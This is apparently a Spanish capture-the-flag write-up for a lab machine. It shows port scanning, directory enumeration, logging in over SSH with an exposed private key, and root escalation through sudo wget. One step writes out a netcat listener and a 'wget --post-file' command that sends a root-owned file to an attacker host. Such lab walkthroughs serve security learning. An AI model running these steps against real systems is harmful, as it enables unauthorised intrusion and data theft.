 


# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.27s latency).
Scanned at 2023-07-05 07:13:21 EDT for 23s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 2 puertos abiertos. Al navegar al servidor web, podemos ver que pertenece a un servicio apache con distribucion ubuntu. Observamos el page source del servidor, porque hay una nota oculta para **Jessie**, por lo cual asumimos que es un usuario. Iniciamos la enumeracion a directorios ocultos dentro del servidor web con gobuster.

```bash
gobuster dir -u http://IPTARGET -w /Path/Wordlist -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 07:43:03 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
=====================================================
2023/07/05 07:43:57 Finished
=====================================================

# Lanzamos otro reconocimeinto pobre /sitemap

gobuster dir -u http://IPTARGET/sitemap -w /Path/Wordlist -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET/sitemap/
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 07:45:04 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.ssh (Status: 301)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/js (Status: 301)
=====================================================
2023/07/05 07:45:58 Finished
=====================================================

```

# Intrusion

Descubrimos una id_rsa en la ruta /.ssh. Como anteriomente descubrimos el nombre de usuario, nos transferimos la key a nuestra maquina atacante y establecemos una conexion via ssh.  Le tenemos que dar los permisos adecuados para poder acceder.

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@IPTARGET
```

# Priv.Escalation

Listamos permisos de superusuario `sudo -l` . Podemos ver que tiene permisos root alojados en /usr/bin/wget.
Necesitamos ponernos en escucha en el puerto 80 en nuestra maquina atacante y transferirnos el contenido del archivo de la sigueinte manera. Si tenes procesos activos en el puerto 80, podes enumerar y eliminarnos de la siguiente manera.

```bash
lsof -i:80
kill PID
```

```bash
# Maquina atacante
  nc -nvlp 80 > root.txt

# Maquina victima
  sudo /usr/bin/wget --post-file=/root/root_flag.txt http://LHOST
  
```

Puede demorar algunos segundos.
Infomacion sacada de https://gtfobins.github.io/gtfobins/wget/

